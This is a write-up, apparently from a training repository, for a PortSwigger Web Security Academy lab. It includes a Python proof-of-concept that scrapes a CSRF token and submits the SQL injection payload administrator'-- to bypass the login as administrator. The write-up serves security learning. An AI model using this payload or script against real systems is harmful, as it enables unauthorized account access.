

# Lab: SQL injection vulnerability allowing login bypass

## Description
```
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.
```

## PoC
```py
import requests
from bs4 import BeautifulSoup

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/login"
burp0_headers = {"Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Referer": "https://0ae200d304a114db80ace9d300de006e.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers)
cookies = response.cookies
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")
csrf_input = soup.find('input', {'name': 'csrf'})
csrf_token = csrf_input['value'] if csrf_input else None
print(f"CSRF Token: {csrf_token}")

attack_payload = "administrator'--"
burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/login"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Origin": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/login", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
burp0_data = {"csrf": csrf_token, "username": attack_payload, "password": "1"}
print(f"attack_payload : {burp0_data}")
response = session.post(burp0_url, headers=burp0_headers, cookies=cookies, data=burp0_data)

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "cross-site", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Referer": "https://portswigger.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i", "Connection": "keep-alive"}
response = session.get(burp0_url, headers=burp0_headers)

soup = BeautifulSoup(response.text, 'html.parser')
status_p = soup.select_one('div.widgetcontainer-lab-status > p')
status_text = status_p.text if status_p else "Status not found"
print(f"Lab : {status_text}")
```

## Result
